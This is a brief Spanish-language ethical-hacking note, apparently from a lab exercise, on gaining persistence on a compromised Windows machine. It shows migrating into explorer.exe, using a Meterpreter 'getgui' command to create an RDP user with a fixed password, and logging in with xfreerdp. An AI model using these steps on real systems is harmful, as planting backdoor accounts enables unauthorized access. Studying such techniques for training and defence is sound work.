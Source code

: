 #Persistencia #PinguinoMario #HackingEtico 
Una vez dentro, tenemos que ser el usuario administrador y mirarnos al proceso de explorer.exe:
![[Pasted image 20230801124356.png]]
![[Pasted image 20230801124529.png]]
Una vez migrado, tenemos que crear un usuario para el protocolo RDP y activarlo:
```bash
run getgui -e -u pinguino -p hack_123
```
![[Pasted image 20230801124656.png]]
Una vez hecho esto, ya podremos entrar dentro del protocolo RDP usando estas credenciales con la herramienta xfreerdp:
```bash
xfreerdp /u:pinguino /p:hack_123 /v:10.2.27.219
```
![[Pasted image 20230801124859.png]]
